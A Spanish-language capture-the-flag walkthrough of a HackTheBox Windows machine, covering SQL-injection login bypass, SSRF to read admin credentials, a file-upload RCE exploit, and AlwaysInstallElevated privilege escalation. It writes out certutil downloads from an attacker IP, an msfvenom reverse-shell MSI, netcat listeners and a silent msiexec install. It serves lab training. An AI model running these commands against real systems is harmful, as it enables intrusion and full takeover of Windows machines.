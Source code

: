 ## Summary

Tags: #Windows #HTTP #HTTPS #SSRF #RCE #ReverShell #WinPEAS #Msfvenom 

- IP -> 10.10.10.239
- Ports -> TCP (80,135,139,443,445,3306,5000,5040,5985,7680,47001,), UDP (idk)
- OS ->  Windows 
- Services & Applications
    - 80 -> Apache httpd 2.4.46 
    - 443 -> 

## Recon
❯ **whatweb http://< URL>**  Nos dara una breve descripcion del gestor de contenidos del puerto 80

* Podemos ver si se inyectan comandos SQL en la pagina web

❯ **Ctrl + u** Para ver el codigo fuente

Cuando una Web es muy simple, podemos usar el siguiente comando 
❯ **nmap --script http-enum -p80 10.10.10.239 -oN WebScan** 
-   -p80 -> Indica el puerto que se quiere escanear
-   10.10.10.239 -> Dirección IP que se quiere escanear
-   -oN WebScan -> Exporta el output a un fichero en formato nmap con nombre “WebScan”
-  http-enum -> Aplica Fuzing a HTTP, utiliza un diccionario de 1000 rutas y ver si hay algunas rutas existen

Por lo que encontramos un posible **Admin** folder y lo colocamos en la url y efectivamente, nos coloca otra ventana de inicio de sesion pero en este caso nos pone usuario y passwd. 

❯ **searchsploit voting system** Para ver si hay vulnerabilidades con ese nombre. Encontramos uno que dice **Autentication Bypass 1.0 (SQLI)** y es un archivo .txt, los que dicen online creemos que no aplican 
❯ **searchsploit -x 49843.txt** Para ver el contenido del archivo (x=examing)

Al ver contenido del exploit nos damos cuenta que debemos de tramitar un peticion por **POST** y debemos de meter en el login una inyeccion SQL. Por lo que nos disponemos a abrir BurpSuite y copiamos todo el login que se encuentra en el archivo .txt qye habiamos visto

Despues de colocar la inyeccion y darle Forward nos loggea automaticamente. 
Podemos enviar la data que encontramos en el Searchsploit con el boton de ‘Forward’ y luego desactivamos el ‘intercept a off’


**** 

Otra forma de hacerlo es por medio del puerto **443 ssl/http** en donde observamos que existe un subdominio el cual podemos utilizar para saber si hay algo que nos pueda ayudar. Pero antes debemos de agregar el **dominio y subdominio** a la ruta **/etc/hosts** ya que existe un virtual hosting.

❯ **openssl s_client -connect 10.10.10.239:443** Podriamos conectarnos al openssl para inspeccionar mejor el certificado del puerto 443
* staging.love.htb y love.htb -> El dominio que debemos de agregar

Una vez agregado el subdominio podemos mirarlo en la pagina web 
Tiene una pestana de **demo** en donde hay una opcion que nos indica que ‘**especifiquemos una url**’

❯ **python3 -m http.server 80** Nos montamos un servidor por el puerto 80 y miramos si nos hace la peticion
❯ **nano test** Nos creamos un archivo llamado test en el cual le agregamos cualquier informacion
En la pagina web colocamos la url de nuestro servidor y buscamos ese archivo **\http://10.10.14.2/test** y nos damos cuenta que nos muestra el contenido de nuestro archivo

Cuando la pagina web nos muestra informacion en la misma web podemos creer que es un SSRF
Por lo que nos podemos aprovechar de eso y hacer un **Server Side Request Forgery (SSRF)** 

Primero hacemos que escanee la url del puerto 80 **\http://127.0.0.1** o sea, escaneara el propio localhost de la maquina victima

Haremos que el mismo servidor se haga un internal port discovery desde el **local-host (\http://localhost:5000/ o \http://127.0.0.1:5000)** por el puerto 5000 ya que ese puerto es open, esto significa que el mismo servidor nos podria dar informacion por un puerto especifico haciendo la peticion internamente.

Ahi encontraremos el usuario admin y su passwd 

****

Buscaremos en searchsploit pero ahora el exploit en donde dice que ya estamos autenticados que se llama **File Upload RCE (Autenthicated Remote Code Execution)**

❯ **searchsploit -m .txt** Puedes descargarte el archivo sploit ejecutable a tu computadora para despues poder ejecutarlo (m=move). Podemos observar que es el tipico sploit en el cual debes de meter IP, usuario, contrasena, IP de la revershell, Puerto de la revershell, para poder hacer esa autenticacion y poder ser ususario root.
❯ **nano 49445.txt** Para ver el contenido del exploit y modificarlo, para poder usarlo 

Debemos de hacer algunas modificaciones al script como:
* love.htb -> Colocarle la IP de la pagina victima
* admin -> usuario
* loveisintheair!!! -> passwd
* 10.10.14.2 -> Nuestra IP
* 443 -> Puerto de Netcat

Debemos quitarle todos los /**votesystem/** ya que eso no existe en nuestra ruta en el servidor victima.
❯ **python3 49445.py** Para ejecutar el exploit

Una vez corregido ejecutamos el script y nos pondemos en escucha en el puerto 443
❯ **rlwrap nc -nlvp 443** Para pondernos en escucha en espera de la revershell para Windows 



## User

Una vez adentro nos vamos a:
❯ **cd C:\Users** Nos cambiamos de directorio
❯ **dir** Para ver el contenido del directorio
❯ **cd Phoebe** Nos movemos al dir del usuario phoebe
❯ **cd Desktop** En el desktop podemos encontrar la primer flag, user.txt


Ahora debemos de escalar privilegios para poder ser usuario root.
❯ **cd Windows/temp** Empezamos llendonos a ese directorio para crear una carpeta, ya que ese dir tiene privilegios de lectura y escritura
❯ **mkdir Privesc** Creamos el directorio para escalar privilegios.

❯ **systeminfo** Podemos observar la informacion del sistema Windows

Podemos usar la herramienta **Winpeas** en el sistema Windows. Nos dirigimos en Google a la pagina oficial en Github de Carlospolop y descargamos de ahi el archivo ejecutable de 64 bits. Lo encontramos en realises como **winPeasx64.exe**

Lo traemos a nuestra ruta de trabajo y nos creamos un servidor para poder subirlo a la maquina victima
❯ **python3 -m http.server 80** Una vez guardado lo tenemos que transferir a la maquina victima y para ello nos montamos un servidor http 80.

Despues en la maquina victima Windows le decimos que queremos cargar un archivo.
❯ **certutil.exe -f -urlcache -split \http://10.10.14.2/winPeas.exe winPeas.exe**
Subiremos el archivo con el nombre de winPeas.exe y lo depositaremos como winPeas.exe en el equipo victima, esto se lograra con una peticion GET a nuestro servidor.

**WinPeas** sirve para detectar vias potenciales para poder escalar privilegios.
❯ **winPeas.exe** Para ejecutar el archivo .exe en Windows

Podemos observar que de toda la informacion nos despliega el ‘**Checking AlwaysInstallElevated**’ y tiene:
* **set 1 in HKLM** 
* **set 1 in HKCU** lo cual es malo para esa maquina Windows.
Con este nos podemos ir a la url de **\https://book.hacktricks.xyz** que nos da y asi poder abusar y escalar privilegios

Vamos a la url que nos ofrece esa vulnerabilidad, 
Filtrmos por **AlwaysInstallElevated**
Nos indica que debemos utilizar el siguiente comando en nuestra maquina de atacante para poder crear un archivo que despues subiremos a la maquina Windows
❯ **msfvenon -p windows/x64/shell_reverse_tcp LHOST=10.10.14.2 LPORT=443 --plataform windows -a 64 -f msi -o reverse.msi** 
* LHOST ->  IP de atacante
* LPORT -> puerto Netcat 443
* p -> payload 
* a -> arquitectura x64
* f -> formato
* nombre del archivo -> reverse.msi

## Root

Una vez creado el archivo **.msi** lo subimos a la maquina victima creando un servidor con python como lo hicimos anteriormente.
❯ **python3 -m http.server 80** Una vez guardado lo tenemos que transferir a la maquina victima y para ello nos montamos un servidor http 80.

Despues en la maquina victima le decimos que queremos cargar ese archivo.
❯ **certutil.exe -f -urlcache -split \http://10.10.14.2/reverse.msi reverse.msi** 
* Ip -> Maquina de atacante
Buscamos el archivo con ese nombre **reverse.msi** y lo depositarremos como reverse.msi en el equipo victima Windows.

❯ **rlwrap nc -nlvp 443** Nos ponemos en escucha por el puerto 443 en Windows.

Para instalar el archivo .msi en una maquina Windows debemos de colocar el siguiente comando:
❯ **msiexec /quiet /qn /i reverse.msi**
Una vez que ejecutemos el archivo en la maquina victima Windows, esta nos dara una revershell y en este caso seremos usuario **Authority\System** que seria el root.

Ahora nos vamos al Desktop del Administrator y buscamos la flag root.txt